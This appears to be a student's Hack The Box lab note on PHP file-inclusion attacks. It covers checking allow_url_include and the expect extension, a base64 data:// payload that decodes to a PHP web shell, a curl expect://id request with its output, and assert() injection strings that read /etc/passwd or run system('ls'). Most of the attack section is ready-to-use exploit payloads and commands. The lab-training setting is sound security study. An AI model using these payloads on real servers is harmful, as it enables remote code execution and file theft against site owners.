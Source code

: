 2) Decode The Base64 String & Check If `allow_url_include` is **On**
```shell
aaryan11x@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O......4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```
This option is *not enabled by default*, and is required for several other LFI attacks, like using the `input` wrapper or for any RFI attack.

3) ***Remote Code Execution***
	Convert a Basic *PHP Web Shell* To Base64. Here's one Already :-
	`data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=`
	If This Is **Successful**, Start Executing *cmd Commands* :-
	<mark style="background: #ABF7F7A6;">data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=[command_name]</mark>

***Note : If your Command has spaces in it, URL Encode It while sending using CTRL+u in Burpsuite***


###### Expect
We may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to *directly run commands through URL streams*. Expect works very similarly to the web shells we've used earlier, *but you don't need to provide a web shell*, as it is designed to execute commands.
However, **expect** is an **external wrapper**, so it needs to be manually installed and enabled on the back-end server.
Check For It the same way you checked for `allow_url_include`
```shell
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```
So, **Expect** is Enabled!

Example :-
```shell
aaryan11x@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Here, *id is your command*

---
### Assert Function Exploitation
Read this for more info about the attack: https://infosecwriteups.com/how-assertions-can-get-you-hacked-da22c84fb8f6

For example, PHP code might be designed to prevent directory traversal like so:
```php
assert("strpos('$file', '..') === false") or die("");
```
While this aims to stop traversal, it inadvertently creates a vector for code injection. To exploit this for reading file contents, an attacker could use:
```php
' and die(highlight_file('/etc/passwd')) or '
```
```php
' and die(system("ls"))or '
```
